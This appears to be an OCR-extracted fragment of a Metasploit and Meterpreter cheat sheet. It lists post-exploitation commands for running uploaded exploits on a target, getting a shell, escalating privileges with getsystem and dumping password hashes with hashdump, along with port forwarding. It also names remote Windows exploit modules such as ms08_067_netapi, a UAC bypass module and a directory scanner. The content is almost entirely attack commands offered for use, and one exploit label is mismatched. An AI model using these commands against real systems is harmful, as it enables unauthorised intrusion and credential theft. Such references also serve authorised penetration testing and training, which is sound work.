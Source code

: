 Meterpreter download file from Windows target

execute -f c:\\windows\temp\exploit.exe

Meterpreter run .exe on target - handy for executing uploaded exploits

execute -f cmd -c 

Creates new channel with cmd shell

ps

Meterpreter show processes

shell

Meterpreter get shell on the target

getsystem

Meterpreter attempts priviledge escalation the target

hashdump

Meterpreter attempts to dump the hashes on the target

portfwd add –l 3389 –p 3389 –r target

Meterpreter create port forward to target machine

portfwd delete –l 3389 –p 3389 –r target

Meterpreter delete port forward

Common Metasploit Modules
Top metasploit modules.

Remote Windows Metasploit Modules (exploits)
COMMAND	DESCRIPTION
use exploit/windows/smb/ms08_067_netapi

MS08_067 Windows 2k, XP, 2003 Remote Exploit

use exploit/windows/dcerpc/ms06_040_netapi

MS08_040 Windows NT, 2k, XP, 2003 Remote Exploit

use exploit/windows/smb/
ms09_050_smb2_negotiate_func_index

MS09_050 Windows Vista SP1/SP2 and Server 2008 (x86) Remote Exploit

Local Windows Metasploit Modules (exploits)
COMMAND	DESCRIPTION
use exploit/windows/local/bypassuac

Bypass UAC on Windows 7 + Set target + arch, x86/64

Auxilary Metasploit Modules
COMMAND	DESCRIPTION
use auxiliary/scanner/http/dir_scanner

Metasploit HTTP directory scanner
